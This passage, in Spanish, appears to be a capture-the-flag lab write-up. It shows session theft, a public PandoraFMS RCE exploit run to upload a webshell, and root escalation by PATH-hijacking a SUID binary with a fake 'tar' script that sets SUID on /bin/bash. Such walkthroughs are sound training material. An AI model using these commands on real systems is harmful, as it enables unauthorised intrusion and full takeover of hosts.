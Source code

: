 Podemos probar con la del usuario Matt y nos podemos robar su sesión. 

----------
#### PandoraFMS v7.0NG Authenticated Remote Code Execution
Buscando en github por algun exploit disponible, encontramos que existe uno que nos permite subir una webshell, es del repositorio de [UnicorDev](https://github.com/UNICORDev/exploit-CVE-2020-5844). Solo tenemos que correr el exploit con los argumentos correctos y se nos subira una web shell.
```
python3 exploit-CVE-2020-5844.py -t 127.0.0.1 80 -p v7op9au0bp1ds9gl8m50t6k9v8
```

---------
#### Abusing Custom Binary - PATH Hijacking [Privilege Escalation]
Si buscamos por archivos SUID encontramos el siguiente:
![[Pasted image 20230711124430.png]]

Si aplicamos un **ltrace** podemos observar que hace uso de **tar** sin definia la ruta completa del binario, esto puede conducir a un **PATH Hijacking**:
![[Pasted image 20230711124605.png]]

Podemos crear un archivo con nombre **tar** en alguna ruta donde dispongamos privilegios de escritorios que contenga lo siguiente:
```bash
#!/bin/bash
chmod u+s /bin/bash
```

Ahora solo queda modificar el **Path** para que este revise primero esta ruta cuando busque el binario de **tar**:
```
export PATH=/tmp:$PATH
```

Ejecutamos el binario y posteriormente hacemos un **bash -p**.

